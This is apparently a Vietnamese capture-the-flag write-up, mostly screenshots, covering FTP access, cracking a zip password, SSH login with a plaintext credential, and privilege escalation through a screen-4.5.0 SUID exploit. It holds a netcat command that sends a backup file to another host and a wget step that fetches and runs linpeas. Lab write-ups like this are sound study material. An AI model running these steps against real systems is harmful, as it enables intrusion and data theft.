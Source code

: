 Truy cập vào FTP 
![image](https://hackmd.io/_uploads/BJ0kAXvLa.png)
![image](https://hackmd.io/_uploads/Hy2zCmPUa.png)

Tải 2 file về xem

![image](https://hackmd.io/_uploads/HJk-1VPLa.png)

```bash=
#Remote Server
nc -w 3 192.168.18.145 8888 < backup.zip

#Local Machine
nc -lvnp 8888 > backup.zip
```
![image](https://hackmd.io/_uploads/B1m-xNwIp.png)

![image](https://hackmd.io/_uploads/Sk_llVv8a.png)

File zip bị khóa 
![image](https://hackmd.io/_uploads/ryeBxVwIT.png)


```bash=
zip2john backup.zip > hash.txt
john hash.txt
```
![image](https://hackmd.io/_uploads/BJtKlVD8T.png)

Tìm được pass là 1234567890

![image](https://hackmd.io/_uploads/HkToeVvIp.png)
```
donald:HBRLoCZ0b9NEgh8vsECS
```

SSH vào 
![image](https://hackmd.io/_uploads/HyzW-VD8p.png)


Tải linpeas về để dễ dàng tìm cách leo thang hơn

```
# Use a linpeas binary
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

Tìm được Unknown SUID binary của screen-4.5.0
![image](https://hackmd.io/_uploads/ByXezVDLa.png)

Search  tìm được script exploit https://www.exploit-db.com/raw/41154

![image](https://hackmd.io/_uploads/S1y77EwUp.png)

![image](https://hackmd.io/_uploads/HJiX7EDIp.png)

![image](https://hackmd.io/_uploads/rkTBm4PLp.png)

Lấy được flag 3


